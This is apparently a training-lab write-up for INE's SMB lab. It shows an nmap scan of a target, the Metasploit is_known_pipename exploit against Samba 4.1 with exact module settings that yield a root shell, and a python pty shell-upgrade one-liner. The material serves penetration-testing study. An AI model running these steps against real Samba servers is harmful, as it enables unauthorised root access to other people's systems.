





# LAB SMB — INE Labs

| Field      | Value              |
|------------|--------------------|
| Platform   | INE Labs           |
| OS         | Linux              |
| Difficulty | Easy               |
| Tags       | SMB, Samba 4.1, Metasploit, is_known_pipename, shell upgrade |

---

## 1. Reconnaissance

```bash
nmap -sV -sC <IP>
```







SMB port 445 open. Identified **Samba 4.1** — vulnerable to a well-known Metasploit exploit.

---

## 2. Vulnerability Identification

Searched Metasploit for a matching Samba exploit:

```bash
search samba 4.1
```



Found: `exploit/linux/samba/is_known_pipename` — exploits a pipe name vulnerability in Samba to achieve unauthenticated RCE. Requires a writable share on the target.

---

## 3. Exploitation

Configured and ran the exploit:

```bash
use exploit/linux/samba/is_known_pipename
set RHOSTS <IP>
set RPORT 445
set payload cmd/unix/interact
set SMB_SHARE_NAME exploitable
run
```

Shell received as root.

### Shell Upgrade

The raw command shell was limited. Upgraded to a proper TTY:

```bash
python -c 'import pty; pty.spawn("/bin/bash")'
```



---

## Key Takeaways

**Samba `is_known_pipename` requires a writable or accessible named share.** The `SMB_SHARE_NAME` parameter must match a real share on the target. Enumerate shares with `smbclient -L` or `enum4linux` first, then set the share name.

**Metasploit's `cmd/unix/interact` payload gives a raw shell.** It's functional but limited — no TTY, no job control. Always upgrade with `python -c 'import pty; pty.spawn("/bin/bash")'` immediately after landing.
